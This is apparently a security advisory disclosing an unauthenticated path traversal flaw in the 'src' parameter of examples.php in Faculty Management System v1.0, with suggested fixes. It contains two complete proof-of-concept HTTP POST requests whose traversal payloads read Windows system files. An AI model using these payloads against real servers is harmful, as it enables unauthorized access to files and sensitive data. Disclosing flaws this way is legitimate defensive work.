


#  Faculty Management System examples.php  v.1.0 Path Traversal

# NAME OF AFFECTED PRODUCT(S)

- Faculty Management System

## Vendor Homepage

- [Faculty Management System | code-projects](https://code-projects.org/faculty-management-system-in-php-with-source-code/)

# AFFECTED AND/OR FIXED VERSION(S)

## submitter

- xiaoliyu-1
## VERSION(S)

- V1.0

## Software Link

- - [Faculty Management System | code-projects](https://code-projects.org/faculty-management-system-in-php-with-source-code/)

# PROBLEM TYPE

## Vulnerability Type

- Path Traversal

## Root Cause

- A Path Traversal vulnerability was found in the 'examples.php' file of the 'Faculty Management System' project. The reason for this issue is that attackers input malicious path from the parameter "src" and use it directly in file read without the  enough validation. 

## Impact

- Attackers can exploit this Path Traversal vulnerability to achieve unauthorized system file access, sensitive data leakage, posing a serious threat to Operation System security and business continuity

# DESCRIPTION

- During the security review of "Faculty Management System", discovered a critical Unauthorized Path Traversal vulnerability in the "examples.php" file. This vulnerability stems from insufficient user input validation of the 'src' parameter, allowing attackers to inject malicious path file. Therefore, attackers can gain unauthorized access to Operation System File system, access sensitive information. Immediate remedial measures are needed to ensure system security and protect data integrity.

# No login or authorization is required to exploit this vulnerability

# Vulnerability details and POC

## Vulnerability type:

- Path Traversal

## Vulnerability location:

- "src" parameter


## URL:
```
/gan/bootstrap/plugins/DataTables-1.10.5/examples/resources/examples.php
```
## Payload:

payload1
```
POST /gan/bootstrap/plugins/DataTables-1.10.5/examples/resources/examples.php HTTP/1.1
Host: 192.168.43.129
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.132 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 91

src=scripts/a.php/../../../../../../../../../../../../../../../../windows/WindowsUpdate.log
```
payload2
```
POST /gan/bootstrap/plugins/DataTables-1.10.5/examples/resources/examples.php HTTP/1.1
Host: 192.168.43.129
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.132 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 91

src=scripts/a.php/../../../../../../../../../../../../../../../../windows/win.ini
```
# Attack results



# Suggested repair


 1. Input validation and whitelist: Strictly validate user input and only allow the expected character set (whitelist). Firmly reject any content that contains... /, '.. The input of such sequences.

2. path normalization and verification: Use secure apis (such as realpath(), path.normalize()) to normalize the final path and verify whether the normalized path falls within the expected benchmark directory.

3. The principle of least privilege: Configure the minimum necessary file system access permissions for application running accounts to prevent them from having the ability to read from or write to system critical directories.